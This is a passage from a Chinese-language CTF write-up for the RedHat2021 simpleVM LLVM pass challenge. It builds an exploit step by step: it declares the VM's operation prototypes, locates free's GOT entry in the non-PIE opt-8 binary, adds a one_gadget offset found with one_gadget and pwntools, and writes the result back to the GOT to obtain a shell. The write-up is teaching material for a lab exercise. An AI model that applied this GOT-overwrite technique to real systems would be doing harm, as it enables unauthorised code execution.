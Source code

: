 至此，源码已经全部分析完毕。我们已经可以在exp中编写6个函数的原型了，注意参数的类型和个数。

```c
void o0o0o0o0();
void pop(int reg){};
void push(int reg){};
void store(int reg){};
void load(int reg){};
void add(int reg1, int reg2){};
void min(int reg1, int reg2){};

void o0o0o0o0(){
	
}
```

## Step 5: 编写exp.c，同时进行调试
现在，我们来着手编写exp，重点需要调试load和store这两个函数的执行。

一开始，reg1、reg2、stack中所有的值都为0，由于本题中opt-8程序没有开启PIE保护，因此其加载基址固定不变，我们可以利用这个获取到其got表中的地址，将其拷贝到reg或stack中。然后在此基础上计算出one_gadget的地址，将其写回到got表，即可执行one_gadget，逻辑很简单。

在这里，我们选择free函数作为地址覆盖的对象，找到opt程序中free函数got表的位置为0x77E100。因此o0o0o0o0函数的第一条语句应该是：``add(1, 0x77E100);``。然后使用load函数将got表中地址值保存到另一个寄存器中：``load(1);``。现在我们想要的地址在reg2中，加上相应的one_gadget偏移。与上一题相同，这里使用的是笔者虚拟机的libc而不是题目给的libc：

```
root@ubuntu:~/Desktop/LLVM/challenges/RedHat2021-simpleVM# one_gadget /lib/x86_64-linux-gnu/libc.so.6
0xe3afe execve("/bin/sh", r15, r12)
constraints:
  [r15] == NULL || r15 == NULL
  [r12] == NULL || r12 == NULL

0xe3b01 execve("/bin/sh", r15, rdx)
constraints:
  [r15] == NULL || r15 == NULL
  [rdx] == NULL || rdx == NULL

0xe3b04 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL
  [rdx] == NULL || rdx == NULL
```
找到free函数偏移：
```
root@ubuntu:~/Desktop/LLVM/challenges/RedHat2021-simpleVM# python3
Python 3.8.10 (default, Jun 22 2022, 20:18:18) 
[GCC 9.4.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> from pwn import *
>>> libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
[*] '/lib/x86_64-linux-gnu/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
>>> print(hex(libc.symbols['free']))
0x9a6d0
>>> 
```
因此，第三条语句应该是``add(2, 0x4942e);``，这样就得到了第一个one_gadget的地址。第四条语句将其写回到free.got中：``store(1);``，完成，我们连stack都没有用到。
